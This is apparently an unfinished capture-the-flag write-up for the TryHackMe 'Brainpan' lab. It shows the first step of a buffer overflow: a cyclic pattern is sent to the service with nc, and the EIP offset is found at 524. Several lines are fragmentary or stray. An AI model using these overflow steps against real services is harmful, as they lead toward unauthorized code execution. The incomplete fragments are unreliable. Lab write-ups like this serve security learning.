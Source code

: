 ```yaml
---
layout: post
title:  "TryHackMe.com: Brainpan"
categories: write-up
author: tlabruyere
tags: [CTF, tryhackme]
---
```


# Recon

Get 

# RE 


## Overflow

Determine the locatation in the buffer where `EIP` crashed on by sending a unique reproducable random sstring and determining what value was in `EIP`. 

```bash
$ msf-pattern_create -l 1024 | nc $IP 9999
```

`eip` is 0x35724134

Looking the value of `eip` up in the cyclic buffer 

```bash
$ msf-pattern_offset -q 0x35724134
[*] Exact match at offset 524
```

This means the

f3 12 17 31
